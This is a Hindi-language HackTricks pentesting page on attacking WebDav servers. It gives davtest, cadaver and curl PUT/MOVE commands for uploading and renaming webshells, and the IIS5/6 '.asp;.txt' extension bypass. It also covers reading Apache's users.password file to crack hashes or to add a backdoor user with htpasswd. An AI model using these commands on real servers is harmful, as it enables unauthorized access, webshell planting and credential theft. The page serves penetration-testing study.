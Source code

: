 # WebDav

{{#include ../../banners/hacktricks-training.md}}

जब **WebDav** सक्षम **HTTP सर्वर** के साथ काम कर रहे हैं, तो यदि आपके पास सही **प्रमाण पत्र** हैं, तो आप **फाइलों को संशोधित** कर सकते हैं, जो आमतौर पर **HTTP बेसिक ऑथेंटिकेशन** के माध्यम से सत्यापित होते हैं। ऐसे सर्वर पर नियंत्रण प्राप्त करना अक्सर **वेबशेल के अपलोड और निष्पादन** में शामिल होता है।

WebDav सर्वर तक पहुँचने के लिए आमतौर पर **मान्य प्रमाण पत्र** की आवश्यकता होती है, जिसमें [**WebDav ब्रूटफोर्स**](../../generic-hacking/brute-force.md#http-basic-auth) एक सामान्य विधि है।

फाइल अपलोड पर प्रतिबंधों को पार करने के लिए, विशेष रूप से उन प्रतिबंधों को जो सर्वर-साइड स्क्रिप्ट के निष्पादन को रोकते हैं, आप:

- यदि प्रतिबंधित नहीं है तो **निष्पादन योग्य एक्सटेंशन** वाली फाइलें सीधे **अपलोड** करें।
- अपलोड की गई गैर-निष्पादन योग्य फाइलों (जैसे .txt) का नाम बदलकर निष्पादन योग्य एक्सटेंशन में बदलें।
- अपलोड की गई गैर-निष्पादन योग्य फाइलों की **कॉपी** करें, उनके एक्सटेंशन को निष्पादन योग्य में बदलते हुए।

## DavTest

**Davtest** कई **विभिन्न एक्सटेंशन** वाली फाइलों को **अपलोड** करने की कोशिश करता है और **जांचता** है कि क्या एक्सटेंशन **निष्पादित** होता है:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

इसका मतलब यह नहीं है कि **.txt** और **.html एक्सटेंशन निष्पादित हो रहे हैं**। इसका मतलब है कि आप **इन फ़ाइलों तक पहुँच सकते हैं** वेब के माध्यम से।

## Cadaver

आप इस उपकरण का उपयोग **WebDav** सर्वर से **जोड़ने** और क्रियाएँ (जैसे **अपलोड**, **स्थानांतरित** या **हटाना**) **हाथ से** करने के लिए कर सकते हैं।
```
cadaver <IP>
```
## PUT अनुरोध
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE अनुरोध
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav Vulnerability

यह सुरक्षा कमी बहुत दिलचस्प है। **WebDav** **फाइलों को अपलोड** या **नाम बदलने** की **अनुमति नहीं देता** जिनका एक्सटेंशन **.asp** है। लेकिन आप नाम के अंत में **";.txt"** जोड़कर इसे **बायपास** कर सकते हैं और फाइल को एक .asp फाइल की तरह **निष्पादित** किया जाएगा (आप **".html" का उपयोग भी कर सकते हैं ".txt" के बजाय** लेकिन **";" को मत भूलें**).

फिर आप अपनी शेल को ".**txt" फाइल** के रूप में **अपलोड** कर सकते हैं और इसे ".asp;.txt" फाइल में **कॉपी/मूव** कर सकते हैं। उस फाइल को वेब सर्वर के माध्यम से एक्सेस करने पर, यह **निष्पादित** होगा (cadaver कहेगा कि मूव क्रिया काम नहीं की, लेकिन यह काम कर गई).

![](<../../images/image (1092).png>)

## Post credentials

यदि Webdav एक Apache सर्वर का उपयोग कर रहा था तो आपको Apache में कॉन्फ़िगर की गई साइटों पर ध्यान देना चाहिए। सामान्यतः:\
\_**/etc/apache2/sites-enabled/000-default**_

इसके अंदर आप कुछ ऐसा पा सकते हैं:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
जैसा कि आप देख सकते हैं, **webdav** सर्वर के लिए मान्य **credentials** के साथ फ़ाइलें हैं:
```
/etc/apache2/users.password
```
इस प्रकार की फ़ाइलों के अंदर आपको **username** और पासवर्ड का **hash** मिलेगा। ये वे क्रेडेंशियल्स हैं जो वेबडाव सर्वर उपयोगकर्ताओं को प्रमाणित करने के लिए उपयोग कर रहा है।

आप उन्हें **crack** करने की कोशिश कर सकते हैं, या यदि किसी कारणवश आप **webdav** सर्वर तक **access** करना चाहते हैं तो **more** जोड़ सकते हैं:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
नए क्रेडेंशियल्स काम कर रहे हैं या नहीं यह जांचने के लिए आप कर सकते हैं:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## संदर्भ

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}

